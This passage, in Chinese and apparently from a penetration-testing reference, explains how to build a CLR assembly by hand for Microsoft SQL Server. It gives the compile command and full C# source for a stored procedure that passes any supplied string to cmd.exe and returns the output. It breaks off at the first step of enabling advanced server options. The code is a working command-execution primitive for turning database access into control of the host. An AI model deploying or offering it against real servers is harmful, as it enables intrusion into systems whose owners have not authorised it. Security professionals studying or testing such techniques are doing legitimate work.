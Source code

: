 ### 手动创建CLR DLL并导入它

使用以下内容创建C# DLL文件，命令为：`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library c:\temp\cmd_exec.cs`

```csharp
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        // 创建记录并指定列的元数据。
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
        
        // 标记结果集的开始。
        SqlContext.Pipe.SendResultsStart(record);

        // 为行中的每一列设置值
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());

        // 将行发送回客户端。
        SqlContext.Pipe.SendResultsRow(record);
        
        // 标记结果集的结束。
        SqlContext.Pipe.SendResultsEnd();
        
        proc.WaitForExit();
        proc.Close();
    }
};
```

然后按照以下指示操作：

1. 在服务器上启用`show advanced options`
